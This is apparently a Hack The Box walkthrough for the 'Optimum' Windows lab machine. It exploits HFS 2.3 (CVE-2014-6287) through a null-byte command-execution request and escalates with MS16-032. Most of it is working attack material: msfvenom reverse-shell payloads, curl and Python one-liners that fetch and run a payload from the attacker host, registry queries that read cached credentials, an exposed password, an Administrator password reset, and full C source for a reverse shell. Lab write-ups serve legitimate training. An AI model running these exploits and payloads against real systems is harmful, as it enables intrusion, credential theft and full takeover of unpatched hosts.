# [Optimum](https://app.hackthebox.eu/machines/6)

Start with `nmap`:

```bash
# find open TCP ports
sudo masscan -p1-65535 10.10.10.8 --rate=1000 -e tun0 > masscan.txt
tcpports=$(cat masscan.txt | cut -d ' ' -f 4 | cut -d '/' -f 1 | sort -n | tr '\n' ',' | sed 's/,$//')
# TCP deep scan
sudo nmap -sS -p $tcpports -oA tcp --open -Pn --script "default,safe,vuln" -sV 10.10.10.8 &
# TCP quick scan
sudo nmap -v -sS -sC -F --open -Pn -sV 10.10.10.8
# UDP quick scan
sudo nmap -v -sU -F --open -Pn -sV --version-intensity 0 10.10.10.8
```

The TCP quick scan returns the following:



Start with a scan of the website:

```bash
nikto -h http://10.10.10.8/ -C all --maxtime=120s --output=nikto.txt
```


Then browse to the site manually:

```bash
firefox http://10.10.10.8/
```



This looks like a custom web server. The output of `nikto` says it is HFS 2.3 and this matches the information on the webpage stating `HttpFileServer 2.3`. Try looking for exploits:

```bash
searchsploit http file server
```



There are a few interesting exploits mentioning HFS. Looking at both exploits 39161 and 34668, they reference the same [CVE-2014-6287](https://nvd.nist.gov/vuln/detail/CVE-2014-6287). Exploit 34668 explains that a request to `http://localhost:80/?search=%00{.exec|cmd.}` will spawn `cmd.exe` due to how the application fails to handle a NULL byte. Use this to attempt a reverse shell:

```bash
# generate a new payload
msfvenom -p windows/shell_reverse_tcp \
         LHOST=10.10.14.25 \
         LPORT=6969 \
         -a x86 --platform windows \
         -e x86/shikata_ga_nai \
         -f exe \
         -o bubba.exe
# host payload
sudo impacket-smbserver BUBBA .
# start a listener 
nc -nvlp 6969
# url encode payload
PAYLOAD='cmd /c \\\\10.10.14.25\\BUBBA\\bubba.exe'
PAYLOAD_ENC=$(python3 -c "import urllib.parse;print(urllib.parse.quote('$PAYLOAD'))")
# send command to download & execute payload
curl -X GET -s -v "http://10.10.10.8/?search=%00\{.exec|$PAYLOAD_ENC.\}" 
```

But this does not result in a download? Check payload with a ping:

```bash
# start a listener 
sudo tcpdump -i tun0 icmp
# url encode payload
PAYLOAD='ping 10.10.14.25'
PAYLOAD_ENC=$(python3 -c "import urllib.parse;print(urllib.parse.quote('$PAYLOAD'))")
# send command to download & execute payload
curl -X GET -s -v "http://10.10.10.8/?search=%00\{.exec|$PAYLOAD_ENC.\}" 
```

But this also does not work? Maybe it is a path thing?

```bash
# url encode payload
PAYLOAD='c:\\windows\\system32\\ping.exe 10.10.14.25'
PAYLOAD_ENC=$(python3 -c "import urllib.parse;print(urllib.parse.quote('$PAYLOAD'))")
# send command to download & execute payload
curl -X GET -s -v "http://10.10.10.8/?search=%00\{.exec|$PAYLOAD_ENC.\}" 
```

And this works!



Now use this to get a full shell on the target with the following Python:

```python
# run script with python3
import urllib.parse
import urllib.request

PAYLOAD = "c:\\windows\\system32\\cmd.exe /c \\\\10.10.14.25\\BUBBA\\bubba.exe"
URL = 'http://10.10.10.8/?search=%00{.exec|' + urllib.parse.quote(PAYLOAD) + '.}'
print(URL)
urllib.request.urlopen(URL)
```

This returns a shell with `user.txt`:



Looking around the system, there seem to be cached login credentials:

```bash
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon" /reg:64 | findstr "DefaultUserName DefaultDomainName DefaultPassword"
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon" /reg:32 | findstr "DefaultUserName DefaultDomainName DefaultPassword"
```



The current user `kostas` is not a part of the Administrators group, so maybe there is credential reuse here? Try using these credentials for `Administrator`:

```bash
net use \\optimum\c$ /user:kostas kdeEjDowkS*
net use \\optimum\c$ /user:administrator kdeEjDowkS*
```

The login for `kostas` gives a permission denied (meaning the credentials were valid). However, the attempt for `Administrator` gives a `The specified network password is not correct` error. This means the password is not valid... After looking around more, there does not seem to be any other vector to escalate? Look for a kernel exploit. Run `systeminfo` to get the following output:

```
Host Name:                 OPTIMUM
OS Name:                   Microsoft Windows Server 2012 R2 Standard
OS Version:                6.3.9600 N/A Build 9600
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Multiprocessor Free
Registered Owner:          Windows User
Registered Organization:
Product ID:                00252-70000-00000-AA535
Original Install Date:     18/3/2017, 1:51:36 ��
System Boot Time:          11/12/2020, 1:27:43 ��
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               x64-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: AMD64 Family 23 Model 1 Stepping 2 AuthenticAMD ~2000 Mhz
BIOS Version:              Phoenix Technologies LTD 6.00, 12/12/2018
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             el;Greek
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC+02:00) Athens, Bucharest
Total Physical Memory:     4.095 MB
Available Physical Memory: 3.430 MB
Virtual Memory: Max Size:  5.503 MB
Virtual Memory: Available: 4.929 MB
Virtual Memory: In Use:    574 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    HTB
Logon Server:              \\OPTIMUM
Hotfix(s):                 31 Hotfix(s) Installed.
                           [01]: KB2959936
                           [02]: KB2896496
                           [03]: KB2919355
                           [04]: KB2920189
                           [05]: KB2928120
                           [06]: KB2931358
                           [07]: KB2931366
                           [08]: KB2933826
                           [09]: KB2938772
                           [10]: KB2949621
                           [11]: KB2954879
                           [12]: KB2958262
                           [13]: KB2958263
                           [14]: KB2961072
                           [15]: KB2965500
                           [16]: KB2966407
                           [17]: KB2967917
                           [18]: KB2971203
                           [19]: KB2971850
                           [20]: KB2973351
                           [21]: KB2973448
                           [22]: KB2975061
                           [23]: KB2976627
                           [24]: KB2977629
                           [25]: KB2981580
                           [26]: KB2987107
                           [27]: KB2989647
                           [28]: KB2998527
                           [29]: KB3000850
                           [30]: KB3003057
                           [31]: KB3014442
Network Card(s):           1 NIC(s) Installed.
                           [01]: Intel(R) 82574L Gigabit Network Connection
                                 Connection Name: Ethernet0
                                 DHCP Enabled:    No
                                 IP address(es)
                                 [01]: 10.10.10.8
Hyper-V Requirements:      A hypervisor has been detected. Features required for Hyper-V will not be displayed.
```

Save the above into `systeminfo.txt` on Kali and run the following:

```bash
# save systeminfo output from target into systeminfo.txt
git clone https://github.com/AonCyberLabs/Windows-Exploit-Suggester.git
python2.7 Windows-Exploit-Suggester/windows-exploit-suggester.py --update
python2.7 Windows-Exploit-Suggester/windows-exploit-suggester.py -i systeminfo.txt -d 2020-12-04-mssb.xls --local
```



There are a few good ones here to cross reference with the following list of compiled exploits:

- https://github.com/SecWiki/windows-kernel-exploits

MS16-032 is relatively easy to test (have used it before and it is reliable). Target is x64 so download and transfer over the exploit binary:

```bash
# run on Kali
wget https://github.com/SecWiki/windows-kernel-exploits/raw/master/MS16-032/x64/ms16-032.exe
sudo impacket-smbserver BUBBA .
# run on target
robocopy.exe \\10.10.14.25\BUBBA %TEMP% ms16-032.exe /copy:DT /w:1 /r:1 /v 
%TEMP%\ms16-032.exe
```

This will return the following output:

```
Gathering thread handles
Done, got 2 handles
System Token: 00000000000000B8
Couldn't open process token 5
```

However, after looking at the tasklist, a new `cmd.exe` is created as `Adminsitrator`:

```bash
tasklist /v
```



This can be used to spawn a reverse shell as `Adminsitrator` by placing a binary `cmd.exe` in the same folder as the `ms16-032.exe` binary. Generate one and transfer it over to the target:

```bash
# run on kali
msfvenom -p windows/shell_reverse_tcp \
         LHOST=10.10.14.25 \
         LPORT=7777 \
         -a x86 --platform windows \
         -e x86/shikata_ga_nai \
         -f exe \
         -o bubba.exe
sudo impacket-smbserver BUBBA .
nc -nvlp 7777
# run on target
robocopy.exe \\10.10.14.25\BUBBA %TEMP% bubba.exe /copy:DT /w:1 /r:1 /v 
move %TEMP%\bubba.exe %TEMP%\cmd.exe
%TEMP%\ms16-032.exe
```

This results in a connection back from the target but the shell drops immediately? Instead of trying to make the reverse shell work, modify the exploit to just add the `kostas` user to the local administrators group:

```bash
msfvenom -p windows/x64/exec \
         CMD='net localgroup administrators kostas /add' \
         -a x64 --platform windows \
         -f exe \
         -o bubba.exe
```



The payload worked but it looks like refreshing the group memberships of user `kostas` remotely through the shell is non-trivial (gave up after a bit)... Instead, just change the password for the `Adminsitrator` user:

```bash
msfvenom -p windows/x64/exec \
         CMD='net user administrator bubbagump123!' \
         -a x64 --platform windows \
         -f exe \
         -o bubba.exe
```



It looks like the command executed correctly. To abuse this, make a new reverse shell payload and transfer it to the target to run using PSExec:

```bash
# run on kali
msfvenom -p windows/shell_reverse_tcp \
         LHOST=10.10.14.25 \
         LPORT=7777 \
         -a x86 --platform windows \
         -e x86/shikata_ga_nai \
         -f exe \
         -o bubba.root.exe
wget https://download.sysinternals.com/files/PSTools.zip
unzip PSTools.zip
sudo impacket-smbserver BUBBA .
nc -nvlp 7777
# run on target
robocopy.exe \\10.10.14.25\BUBBA %TEMP% PsExec64.exe /copy:DT /w:1 /r:1 /v 
robocopy.exe \\10.10.14.25\BUBBA %TEMP% bubba.root.exe /copy:DT /w:1 /r:1 /v 
%TEMP%\PsExec64.exe -accepteula -u administrator -p bubbagump123! %TEMP%\bubba.root.exe
```

This results in _another_ connection but it drops immediately!? Maybe this is antivirus? That would be weird because the original payload for HFS worked without any issues... Try checking for one:

```bash
wmic /Namespace:\\root\SecurityCenter2 Path AntiVirusProduct Get displayName /Format:List
```

This returns `Invalid namespace`, meaning that there is no AV installed... Maybe just try a custom payload? Save the following on Kali as `bubba.c`:

```c
#define WIN32_LEAN_AND_MEAN

#include <windows.h>
#include <winsock2.h>

#pragma comment(lib, "ws2_32.lib")

#define TARGET_IP   "10.10.14.25"
#define TARGET_PORT 7777

void main(void) {
  SOCKET s;
  WSADATA wsa;
  STARTUPINFO si;
  struct sockaddr_in sa;
  PROCESS_INFORMATION pi;

  WSAStartup(MAKEWORD(2,2), &wsa);
  s = WSASocketA(AF_INET, SOCK_STREAM, IPPROTO_TCP, NULL, 0, 0);
  sa.sin_family = AF_INET;
  sa.sin_addr.s_addr = inet_addr(TARGET_IP);
  sa.sin_port = htons(TARGET_PORT);
  WSAConnect(s, (struct sockaddr *)&sa, sizeof(sa), NULL, NULL, NULL, NULL);
  SecureZeroMemory(&si, sizeof(si));
  si.cb = sizeof(si);
  si.dwFlags = STARTF_USESTDHANDLES;
  si.hStdInput = (HANDLE)s;
  si.hStdOutput = (HANDLE)s;
  si.hStdError = (HANDLE)s;
  CreateProcessA(NULL, "c:\\windows\\system32\\cmd.exe", NULL, NULL, TRUE, 0, NULL, NULL, &si, &pi);
}
```

Then compile and transfer it to the target as before and execute it:

```bash
i686-w64-mingw32-gcc bubba.c -o bubba.root.exe -s -lws2_32
```

And this results in a valid shell as `Adminsitrator`:



LOLZ! Going back, the original MS16-032 exploit would have worked but with a custom reverse shell payload instead of the default `msfvenom` generated one. Also, "refreshing" the groups for the user `kostas` can be done through PSExec:

```bash
%TEMP%\PsExec64.exe -accepteula -u kostas -p kdeEjDowkS* %TEMP%\bubba.root.exe
```

This will return a shell with the `BUILTIN\Administrators` added under `whoami /groups`. 

